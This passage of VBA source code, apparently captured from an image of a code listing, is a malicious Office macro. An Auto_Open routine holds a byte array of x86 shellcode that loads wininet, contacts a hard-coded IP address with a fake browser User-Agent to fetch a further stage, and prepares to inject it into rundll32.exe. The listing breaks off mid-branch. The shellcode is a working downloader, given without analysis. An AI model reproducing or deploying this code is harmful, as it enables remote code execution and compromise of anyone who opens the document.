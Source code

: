 ```vb
    Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If

Sub Auto_Open()
    Dim myByte As Long, myArray As Variant, offset As Long
    Dim pInfo As PROCESS_INFORMATION
    Dim sInfo As STARTUPINFO
    Dim sNull As String
    Dim sProc As String

#If VBA7 Then
    Dim rwxpage As LongPtr, res As LongPtr
#Else
    Dim rwxpage As Long, res As Long
#End If
    myArray = Array(-4, -24, -119, 0, 0, 0, 96, -119, -27, 49, -46, 100, -117, 82, 48, -117, 82, 12, -117, 82, 20, -117, 114, 40, 15, -73, 74, 38, 49, -1, 49, -64, -84, 60, 97, 124, 2, 44, 32, -63, -49, _
13, 1, -57, -30, -16, 82, 87, -117, 82, 16, -117, 66, 60, 1, -48, -117, 64, 120, -123, -64, 116, 74, 1, -48, 80, -117, 72, 24, -117, 88, 32, 1, -45, -29, 60, 73, -117, 52, -117, 1, _
-42, 49, -1, 49, -64, -84, -63, -49, 13, 1, -57, 56, -32, 117, -12, 3, 125, -8, 59, 125, 36, 117, -30, 88, -117, 88, 36, 1, -45, 102, -117, 12, 75, -117, 88, 28, 1, -45, -117, 4, _
-117, 1, -48, -119, 68, 36, 36, 91, 91, 97, 89, 90, 81, -1, -32, 88, 95, 90, -117, 18, -21, -122, 93, 104, 110, 101, 116, 0, 104, 119, 105, 110, 105, 84, 104, 76, 119, 38, 7, -1, _
-43, 49, -1, 87, 87, 87, 87, 87, 104, 58, 86, 121, -89, -1, -43, -23, -124, 0, 0, 0, 91, 49, -55, 81, 81, 106, 3, 81, 81, 104, -112, 31, 0, 0, 83, 80, 104, 87, -119, -97, _
-58, -1, -43, -21, 112, 91, 49, -46, 82, 104, 0, 2, 64, -124, 82, 82, 82, 83, 82, 80, 104, -21, 85, 46, 59, -1, -43, -119, -58, -125, -61, 80, 49, -1, 87, 87, 106, -1, 83, 86, _
104, 45, 6, 24, 123, -1, -43, -123, -64, 15, -124, -61, 1, 0, 0, 49, -1, -123, -10, 116, 4, -119, -7, -21, 9, 104, -86, -59, -30, 93, -1, -43, -119, -63, 104, 69, 33, 94, 49, -1, _
-43, 49, -1, 87, 106, 7, 81, 86, 80, 104, -73, 87, -32, 11, -1, -43, -65, 0, 47, 0, 0, 57, -57, 116, -73, 49, -1, -23, -111, 1, 0, 0, -23, -55, 1, 0, 0, -24, -117, -1, _
-1, -1, 47, 51, 104, 104, 89, 0, 5, -43, 55, -67, -43, 19, 56, -33, -102, -76, -2, 127, -11, -114, 2, 99, 91, 24, -62, -87, -104, -62, -13, -23, 109, 110, -79, 64, 62, -68, -22, -101, _
54, -116, -40, -95, 112, 27, -103, 12, 7, 125, -32, 24, -103, -54, -7, 120, -100, -48, -56, -121, 86, -80, -35, -58, -105, -54, 23, 7, -122, 93, -101, -81, 92, -6, 118, 50, -86, 23, 35, -79, _
-40, 0, 85, 115, 101, 114, 45, 65, 103, 101, 110, 116, 58, 32, 77, 111, 122, 105, 108, 108, 97, 47, 53, 46, 48, 32, 40, 99, 111, 109, 112, 97, 116, 105, 98, 108, 101, 59, 32, 77, _
83, 73, 69, 32, 49, 48, 46, 48, 59, 32, 87, 105, 110, 100, 111, 119, 115, 32, 78, 84, 32, 54, 46, 50, 59, 32, 87, 79, 87, 54, 52, 59, 32, 84, 114, 105, 100, 101, 110, 116, _
47, 54, 46, 48, 59, 32, 77, 65, 76, 78, 74, 83, 41, 13, 10, 0, -115, -26, -36, 68, 23, -108, 24, -59, 46, 74, 110, 29, -74, 120, -71, -11, 7, -39, -24, 38, 53, -34, 116, -119, _
19, 18, -46, 31, -111, -25, -117, -108, -65, 29, 10, -24, -115, 43, 71, 7, -25, -128, -26, -112, -105, 53, 19, 4, -47, 45, -78, 123, 64, 117, -82, 75, -112, 116, -37, 109, 114, 13, 65, -32, _
35, 8, -36, 98, 60, -6, -25, -37, -60, 33, -112, 60, 118, 110, -11, -101, 17, 64, 49, -128, -5, -72, -2, -32, -82, -113, 42, -56, 105, 65, 107, 14, -128, 110, -42, -87, 123, -57, 41, -59, _
64, 112, 77, 20, -54, -50, -37, 20, -115, 68, -71, 100, 113, 0, 45, 118, 13, -52, -18, -27, 38, 74, -55, -120, -81, -89, -68, -115, -22, -37, -50, -102, -104, -59, 45, 93, -86, 77, -17, -20, _
-46, -49, 99, 30, -110, 103, 76, -91, -89, 58, -47, -60, -39, 53, -127, 85, 6, -117, -93, 9, -123, -35, 58, -33, -75, -62, 72, 25, 67, 16, -111, -115, 120, -7, 50, -101, -72, -123, 0, 10, _
109, -107, 101, -21, -34, 62, 107, -15, 26, -121, -64, -86, -104, 58, -127, -23, 124, 10, -18, 80, 62, 48, -124, 15, 110, 0, 104, -16, -75, -94, 86, -1, -43, 106, 64, 104, 0, 16, 0, 0, _
104, 0, 0, 64, 0, 87, 104, 88, -92, 83, -27, -1, -43, -109, -71, 0, 0, 0, 0, 1, -39, 81, 83, -119, -25, 87, 104, 0, 32, 0, 0, 83, 86, 104, 18, -106, -119, -30, -1, -43, _
-123, -64, 116, -58, -117, 7, 1, -61, -123, -64, 117, -27, 88, -61, -24, -87, -3, -1, -1, 49, 56, 50, 46, 50, 53, 52, 46, 50, 50, 57, 46, 50, 51, 57, 0, 18, 52, 86, 120)
    If Len(Environ("ProgramW6432")) > 0 Then
        sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
    Else
```